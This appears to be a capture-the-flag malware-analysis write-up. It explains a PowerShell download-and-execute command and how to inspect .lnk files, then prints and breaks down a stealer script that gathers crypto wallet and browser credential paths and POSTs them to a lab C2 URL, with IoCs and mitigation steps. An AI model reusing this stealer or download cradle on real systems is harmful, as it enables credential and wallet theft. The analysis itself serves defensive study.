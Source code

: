 **Command used in PowerShell**

`-ep Bypass` 

**Explanation:** Overrides PowerShell’s excution policy to allow the script to run regardless of the machine’s policy settings

**Purpose**: ****Execution policies are a security measure to restrict script execution. This bypass ensures the script runs without interference

`-nop` 

**Explanation:** Disables PowerShell’s profile loading

**Purpose:** Allows inline execution of PowerShell commands

`(New-Object Net.WebClient).DownloadFile(...)` 

**Explanation:** Uses the `.NET` `WebClient` object to download a file from a specified URL

**Purpose:** Fetches the script `(IS.ps1)` from the remote server hosted on GitHub

``C:\ProgramData\s.ps1`` 

**Explanation:** Specifies the location on the local system where the downloaded file will be saved

**Purpose**: ****Ensures the downloaded script is stored in a predictable location for subsequent execution

`iex (Get-Content ... -Raw)` 

**Explanation:** Reads the content of the downloaded file (`s.ps1`) and passes it to `Invoke-Expression (iex)` to execute it in memory

**Purpose:** Executes the script directly, making it harder for traditional security tools to detect

**Potential Uses**

Legitimate Usage: Automating administrative tasks or downloading scripts for deployment

Malicious Usage: Malware and phishing attacks to execute malicious scripts stealthily

**Mitigation and Analysis**

If this command observed in logs or detected by security tools:

1. **Investigate Source URL**: to understand what the file contains
2. **Check System Logs:** Review logs for similar activity or further signs of compromise
3. **Quarantine the Script:** Inspect the file in an isolated environment
4. **Restrict Execution:** Enforce strict execution in PowerShell. Monitor and block potentially harmful PowerShell commands using endpoint security solutions






**Ways to inspect .lnk file to reveal embedded commands and attributes**

To view the content of a `.lnk` (shortcut) file, you can use several methods. Here are a few options:

**1. Using a Text Editor**

You can open the `.lnk` file in a text editor (like Notepad) to see some of the raw data. However, the content will be mostly unreadable, as `.lnk` files are binary files. You can still see some text strings, such as the target path.

**2. Using Windows Explorer**

1. **Right-click** on the shortcut file.
2. Select **Properties**.
3. In the **Shortcut** tab, you will see the **Target** field, which shows the path the shortcut points to, along with other information such as Start in and Shortcut key.

**3. Using Command Prompt**

You can use the built-in command line tool `WMI` to extract details from the `.lnk` file:1. Open Command Prompt.2. Run the following command:
`1. bash 
2.    wmic path Win32_ShortcutFile where "Name='your_shortcut.lnk'" get Target`

Replace `your_shortcut.lnk` with the actual name of your shortcut file.

**4. Using a Third-Party Tool**

There are several tools designed to analyze `.lnk` files and display their contents in a user-friendly way:- **LnkParser**: A specialized tool for viewing shortcut files.- **Shortcut Explorer**: Another tool that provides detailed information about shortcuts.

**5. Using PowerShell**

You can also use PowerShell to get detailed information:
`1. $shortcut = (New-Object -ComObject WScript.Shell).CreateShortcut("C:\path\to\your_shortcut.lnk") 
2. $shortcut.TargetPath 
3. $shortcut.Arguments 
4. $shortcut.WorkingDirectory`

These methods should help you view the content and properties of a `.lnk` file.

More readings: https://belkasoft.com/forensic-analysis-of-lnk-files







```jsx
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

**Script breakdown**

1. Search-For-Wallets Function
    1. Paths searched:
        1. Bitcoin (`wallet.dat`)
        2. Ethereum (`keystore`)
        3. Monero (`wallet`)
        4. Dogecoin (`wallet.dat`)
    2. Actions
        1. Use `Test-Path` to check for existence of files
        2. Appends paths of found wallet files to `stolen_info.txt`
2. Search-For-BrowserCredentials Function 
    1. Target credential files from web browsers
        1. Google Chrome (`Login Data` SQLite database)
        2. Firefox (`logins.json`)
    2. Actions
        1. Uses `Test-Path` to check for the existence of files
        2. Appends file paths into stolen_info.txt
3. Send-InfoToC2Server Function
    1. C2 URL: http://papash311.thm/data
    2. Method: HTTP POST request
    3. Data: Contents of `stolen_info.txt`
4. Execution Flow
    1. `Search-ForWallets` to locate cryptocurrency wallet files
    2. `Search-ForBrowserCredentials` to identify browser credential files
    3. `Send-InfoToC2Server` to exfiltrate gathered information

**Observations** 

Malicious intent - explicitly designed to steal cryptocurrency wallet files and browser credentials, then exfiltrate this information to a remote server

Indicators of Compromise (IoCs)

- File path: stolen_info.txt
- C2 URL
- Specific file paths for wallets and credentials

Methods used:

- `Test-Path` for identify files
- `Add-Content` for appending data to a file
- `Invoke-WebRequest` for sending data to C2 server

### Mitigation and Response

1. **Preventive Measures**:
    - Restrict PowerShell execution policies to prevent script execution.
    - Use endpoint protection to detect and block malicious scripts.
2. **Incident Response**:
    - **Containment**:
        - Terminate the process executing this script.
        - Quarantine the affected machine.
    - **Eradication**:
        - Remove the `stolen_info.txt` file if present.
        - Search for and remove other traces of the script.
    - **Recovery**:
        - Change credentials stored in the affected browsers.
        - Move or secure any cryptocurrency wallets.
    - **Analysis**:
        - Check logs for outbound connections to `http://papash3ll.thm/data`.
        - Determine if data was successfully exfiltrated.
3. **Detection**:
    - Monitor for use of PowerShell with suspicious commands (e.g., `Invoke-WebRequest` to unknown domains).
    - Detect unusual file access patterns for sensitive paths (wallets or credential files).
